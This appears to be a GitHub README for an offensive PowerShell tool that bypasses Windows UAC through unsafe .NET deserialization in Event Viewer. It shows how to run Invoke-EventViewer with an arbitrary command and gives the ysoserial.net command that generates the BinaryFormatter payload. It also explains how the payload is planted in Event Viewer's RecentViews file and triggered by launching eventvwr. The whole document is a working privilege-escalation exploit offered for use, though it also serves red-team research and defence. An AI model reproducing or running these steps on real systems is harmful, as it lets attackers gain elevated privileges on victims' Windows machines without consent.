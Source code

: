 # EventViewer-UACBypass

- RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.
- Full credits to [Orange Tsai](https://twitter.com/orange_8361)
---
### Usage
```ps1
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```
---
### Working
i) First, the script adds commands to be run to the file `C:\Windows\Tasks\EventViewerRCE.ps1`
- `Stop-Process -name mmc*` : Is used to close Microsoft Management Console.
- After that the command to be executed is added.


ii) Then it crafts payload which runs `C:\Windows\Tasks\EventViewerRCE.ps1` script. The base64 payload was generated using [ysoserial.net](https://github.com/pwntester/ysoserial.net) :
```ps1
ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "powershell.exe -nop -exec bypass C:\Windows\Tasks\EventViewerRCE.ps1"
```
- Decoded base64 payload is stored in `C:\Windows\Tasks\p4yl0ad`

iii) When `WriteFile` function is executed, it checks if the `Event Viewer` folder exists in AppData and it it doesn't then we create the folder. Finally storing our base64 decoded payload in `RecentViews` file under this folder.

iv) In the end, `eventvwr` is executed which then executes our payload.

---

### Reference
- https://twitter.com/orange_8361/status/1518970259868626944
